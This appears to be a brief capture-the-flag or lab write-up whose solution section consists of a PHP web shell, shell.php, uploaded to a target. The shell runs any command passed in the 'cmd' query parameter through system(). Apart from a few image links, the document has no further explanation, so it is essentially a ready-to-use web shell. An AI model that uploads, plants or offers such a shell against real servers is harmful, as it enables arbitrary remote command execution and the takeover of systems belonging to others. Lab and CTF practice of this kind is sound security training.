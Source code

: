 #### Sol:

I uploaded this file as a shell

shell.php

```
<?php
if(isset($_GET['cmd'])){
    echo "<pre>";
    $cmd = $_GET['cmd'];  // Get command from the query string
    system($cmd);         // Execute the command and display output
    echo "</pre>";
}
?>
```



![1746197875636](image/README/1746197875636.png)





![1746197890428](image/README/1746197890428.png)


![1746198813070](image/README/1746198813070.png)
